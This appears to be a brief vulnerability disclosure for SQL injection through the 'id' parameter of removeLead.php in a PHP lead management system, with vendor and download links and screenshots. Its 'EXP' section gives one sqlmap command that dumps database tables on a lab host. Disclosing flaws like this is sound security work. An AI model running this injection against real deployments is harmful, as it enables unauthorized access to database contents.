 vendor：https://www.sourcecodester.com/

download link：https://www.sourcecodester.com/php/15933/lead-management-system-php-open-source-free-download.html

Vulnerability trigger parameter: $id

The process of vulnerability discovery is as follows：

![image](https://user-images.githubusercontent.com/30823782/208410977-4853452c-f26f-4bd6-9fcf-187bfebddd46.png)

EXP:

```
sqlmap.py -u "http://192.168.31.50/penglead/php_action/removeLead.php?id=1" --dbms=mysql -D penglead --tables
```

![image](https://user-images.githubusercontent.com/30823782/208411011-62e0095d-ecfe-40c6-a880-4b33fa55d7b1.png)
